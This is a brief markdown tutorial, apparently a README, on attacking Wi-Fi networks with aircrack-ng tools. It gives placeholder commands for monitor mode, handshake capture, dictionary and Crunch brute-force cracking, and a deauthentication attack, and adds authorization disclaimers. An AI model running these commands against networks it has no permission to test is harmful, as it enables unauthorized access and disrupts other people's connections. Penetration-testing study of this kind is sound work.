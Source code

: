 # Wi-Fi Attacks Practical Guide

In this guide, we'll explore Wi-Fi attacks, including switching adapters to monitor mode, capturing handshakes, and cracking passwords using aircrack-ng. Please note that attempting these actions on networks without proper authorization is illegal and unethical. This guide is for educational purposes only.

## Prerequisites

Make sure you have the necessary tools installed, including aircrack-ng and Crunch.

```bash
# Install aircrack-ng
sudo apt-get install aircrack-ng

# Install Crunch
sudo apt-get install crunch
```
## Switching Adapters to Monitor Mode
Command:  

            `sudo airmon-ng start [interface]`
            
            Replace [interface] with your Wi-Fi interface name.

## Capturing Handshakes
Command: 
            
            `sudo airodump-ng [monitored_interface]`
            
            Replace [monitored_interface] with the interface created in monitor mode.

## Cracking Passwords using aircrack-ng (Dictionary Attack)
Command: 

            `sudo aircrack-ng -w [dictionary_file] -b [BSSID] [capture_file.cap]`
            
            Replace [dictionary_file] with the path to your dictionary file, [BSSID] with the target BSSID, and [capture_file.cap] with the handshake capture file.

## Cracking Passwords using aircrack-ng and Crunch (Brute Force Method)

Create a Wordlist with Crunch: 
            
            `crunch [min_length] [max_length] -o [output_file]`
            
            Replace [min_length] and [max_length] with the desired password length range.

Command: 
            
            `sudo aircrack-ng -w [wordlist_file] -b [BSSID] [capture_file.cap]`
            
            Replace [wordlist_file] with the path to your wordlist file.

## Executing a De-authentication Attack

Command: 

        `sudo aireplay-ng --deauth [number_of_deauths] -a [BSSID] -c [client_MAC] [monitored_interface]`
        
        Replace [number_of_deauths], [BSSID], [client_MAC], and [monitored_interface] with the appropriate values.
        
        Remember to use this knowledge responsibly and only on networks for which you have explicit permission.

